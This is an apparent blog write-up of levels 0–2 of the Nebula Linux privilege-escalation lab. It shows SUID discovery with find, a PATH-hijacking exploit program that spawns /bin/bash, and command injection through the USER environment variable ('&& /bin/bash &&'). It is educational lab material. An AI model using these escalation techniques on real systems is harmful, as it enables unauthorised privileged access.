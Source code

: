 ```yaml
---
title: "Writeup: Nebula (level 0 - level 2)"
date: 2020-12-16T14:42:58+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/). 

<br>

## Level 0

Here is the description about Level 0. 

```
About
This level requires you to find a Set User ID program that will run as the “flag00”
account. You could also find this by carefully looking in top level directories in 
/ for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.
```

According to the hint, we need to find a program which can run as the "flag00". Basically, "find" is used to search for files in a directory hierarchy. Unix systems also provide the flag `-perm` to find the file based on its permission. 

First, login in as level00 and check the identifier information. 

![](https://github.com/chuang76/image/blob/master/00-1.PNG?raw=true)

As we mentioned above, we can search our target with find command. The slash (/) symbol means the root directory. To avoid the verbose error message, let's redirect stderr to a file called err (or you can redirect unwanted output to /dev/null). 

```
$ find / -type f -perm /u+s 2>err | grep "flag00"
```

Two files match the conditions. 

![](https://github.com/chuang76/image/blob/master/00-2.PNG?raw=true)

As you can see, the owner and the group of /bin/.../flag00 and /rofs/bin/.../flag00 is flag00 and level00, respectively. The vulnerability is that the permission of files was set to `rwsr-xr--`, that is, they are Set-UID programs. Since we logged in as level00, when we run the programs, we can get the privilege as the owner flag00. 

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/00-3.PNG?raw=true)

<br>

## Level 1

The description of Level 1 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. 
Files for this level can be found in /home/flag01.
```

The source code is also available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Let's run the program. The parameter "/usr/bin/env" is used to set the PATH. PATH is an environment variable in Unix-based systems, it tells the shell which directories to search for executable files. Then, the program displays the text "and now what". 

However, there is a vulnerability: flag01 is a Set-UID program while it contains a system() function. So it provides the attackers to execute an arbitrary shell command. 

![](https://github.com/chuang76/image/blob/master/01-1.PNG?raw=true)

Our goal is to execute system("/bin/bash"), but how can we modify the parameters of system function? Here is a solution: we can modify "echo" as an executable to execute the /bin/bash command. In other words, we deceive the program to make it run echo as an executable, instead of its original functionality (i.e., display the text). 

Here is our exploit program in the /home/level01 directory, compile it and name the executable as echo. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Next, let's set the PATH variable. Actually, PATH is a list of directories that are walked through in the order. The colon (:) symbol is a separator. Hence, our prepared directory (i.e., the directory that contains executable echo) should be added before the original PATH variable ($PATH). So it should be 

```
$ export PATH=/home/level01:$PATH 
```

rather than

```
$ export PATH=$PATH:/home/level01
```

Run flag01 again, and get the flag. 

![](https://github.com/chuang76/image/blob/master/01-3.PNG?raw=true)

<br>

## Level 2

The description of Level 2 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. 
Files for this level can be found in /home/flag02.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    char *buffer;

    gid_t gid;
    uid_t uid;

    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    buffer = NULL;

    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);

    system(buffer);
}
```

The function getenv() is used to get environment variables. The function asprintf() is used to print to allocated string. It is identical to printf(), except that after executing asprintf(), the first parameter will point to a certain string. In our case, buffer is going to point to the string "/bin/echo %s is cool", and will be treated as the parameter of system() function. 

Again, our goal is to perform system("/bin/bash"). The program contains a vulnerability: it provides the user to feed an arbitrary string to the program. As a result, we can make "/bin/bash" as the value of the key USER. 

Wait, something smells fishy. The string "/bin/echo /bin/bash is cool" can not make system function run properly. Since we aren't able to control the characters "/bin/echo is cool", we can craft the string to run multiple commands. For example, 

```
"/bin/echo && /bin/bash && /bin/echo is cool"
           ^^^^^^^^^^^^^^^^^^^^^^^^^           the value of the key "USER"
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/02-1.PNG?raw=true)

<br>

## Brief Summary 

The vulnerabilities of Set-UID programs:

1. user inputs
2. environment variables
3. system inputs controlled by users.

